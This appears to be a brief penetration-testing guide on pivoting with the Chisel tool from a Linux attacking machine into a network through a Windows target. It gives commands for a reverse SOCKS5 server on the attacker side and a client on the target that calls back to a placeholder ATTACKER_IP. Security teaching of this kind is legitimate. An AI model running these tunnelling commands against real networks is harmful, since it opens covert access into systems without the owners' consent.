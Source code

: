 ```yaml
---
description: >-
  Example scenario for pivoting using Chisel. Note, this example assumes that
  the attacking system is Linux and the target system is Windows.
---
```


# Using Chisel to Pivot

1. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)
   * Note, you will need one for your attacking system and one to be uploaded to the target system.
2. On the attacking system: `./chisel server --socks5 --reverse -p 8000`
3. On the target system: `.\chisel.exe client [ATTACKER_IP]:8000 R:socks`
4. Observe on the attacking system that the SOCKS5 connection has been successfully established.
